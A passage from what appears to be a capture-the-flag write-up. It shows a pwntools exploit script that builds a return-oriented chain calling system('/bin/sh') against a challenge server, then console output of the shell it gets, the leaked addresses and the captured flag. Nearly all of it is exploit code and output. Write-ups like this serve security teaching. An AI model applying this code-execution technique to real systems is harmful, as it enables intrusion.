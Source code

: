 ```python

# binsh address 
bin_sh = get_leak_address(41)
print("/bin/sh @", hex(bin_sh))

payload = flat({
   padding: [
      ret,
      pop_rdi,
      bin_sh,
      system
   ]
})

send_payload(payload)

p.interactive()
p.close()
```
And when executing the script we get a shell:
```console 
$ python3 exploit.py
[+] Opening connection to chall.polygl0ts.ch on port 9001: Done
main (symbols) @ 4894
[*] main_addr @ 0x55d92859331e
[*] PIE base @ 0x55d928592000
[*] pop_rdi @ 0x55d9285933b5
[*] system @ 0x55d9285930c4
[*] ret @ 0x55d92859301a
/bin/sh @ 0x55d9291e06f0
[*] Switching to interactive mode
Your message:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaac\x1a0Y(\xd9U
$ id
uid=1000(jail) gid=1000(jail) groups=1000(jail)
$ ls
flag.txt
run
$ cat flag.txt
EPFL{H3Y_C4LM_D0WN_N0_N33D_T0_SCR34M_S0_L0UD_1_C4N_H34R_Y0U!!!!!!}
```